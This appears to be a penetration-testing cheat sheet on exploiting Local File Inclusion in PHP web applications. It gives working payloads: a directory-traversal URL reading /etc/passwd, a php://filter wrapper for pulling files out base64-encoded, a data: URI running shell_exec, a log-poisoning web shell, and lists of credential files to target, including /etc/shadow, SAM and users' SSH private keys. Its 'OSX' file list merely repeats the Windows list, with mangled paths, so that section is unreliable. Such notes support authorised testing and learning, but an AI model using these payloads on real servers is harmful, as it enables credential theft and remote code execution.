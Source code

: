 # Local File Inclusion (LFI)

A local file inclusion (LFI) vulnerability is the process of including files that are locally present on the target server, through exploitation of vulnerable inclusion procedures implemented in the application.

Local file inclusion vulnerabilites occur when a page receives the path to the file that has to be included as input, which is not properly sanitized, allowing directory traversal characters to be injected.

### Examples

The most basic form of a exploiting a LFI vulnerability looks like the following:

```bash
https://mysecureserver.com/file.php?target=../../../../../etc/passwd
```

If we want to get a file,  it is best to base64 encode it. This will ensure that we can exfiltrate files rather than the server excuting the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=$file
```

Additionally, the following command demonstrates  how we could execute code with the `shell_exec` function:

```bash
data:text/plain,<?php echo shell_exec("whoami") ?>
```

### Common Locations

This section lists common files to look for when testing for Local File Inclusion, I have linked additional lists in the 'References' section.&#x20;

#### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

#### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

#### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Remote Code Execution via LFI (Log Injection)

Log Injection / Log Poisoning is a technique used to obtain a reverse shell from a LFI vulnerability. In order to make this attack work, an attacker will attempt to inject a malicious payload into the server log.

* If we are able to access server logs such as `/var/log/apache2/access.log` we can modify our `User-Agent` to be a malicious payload which could result in us obtaining remote code execution.&#x20;

```php
# Sample PHP Payload
<?php system($_GET['c']); ?>
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server may append something like `.php` or `.config` to the file. For example, including `/etc/passwd` may be rendered as `/etc/passwd.php`. This occurs when the include function uses a parameter like `?page` and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (`%00`) will cause the interpreter to stop reading, this would then allow you to include and view the intended page.
* If you have identified LFI impacting a Linux host, you may be able to access the `.ssh/id_rsa` file of identified users. These are easily identified from reading the contents of the `/etc/passwd` file.&#x20;

### References

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion" %}
